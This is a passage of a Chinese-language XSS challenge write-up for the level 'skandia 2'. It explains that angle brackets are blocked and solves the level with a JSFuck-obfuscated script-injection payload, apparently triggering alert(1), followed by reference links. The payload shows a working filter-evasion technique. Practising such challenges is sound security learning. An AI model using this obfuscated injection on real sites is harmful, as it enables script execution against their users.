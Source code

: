## skandia 2

无法使用`<`、`>`来闭合标签

一开始想利用`toUpperCase`的特性，找两个转为大写后变成`<`、`>`的unicode字符

最后，想起里啊一个神奇的东西，jsfuck！

于是用jsfuck就可以轻松过关

```
");[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+(![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]]+[+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]])()//
```

![](xss练习记录/32.png)













# Reference Link

http://heartsky.info/2016/07/11/prompt-1-writeup/

http://pupiles.com/xss.html

https://lorexxar.cn/2015/07/02/xss-p/

https://blog.csdn.net/he_and/article/details/79672900

http://heartsky.info/2016/07/13/alert-1-writeup/



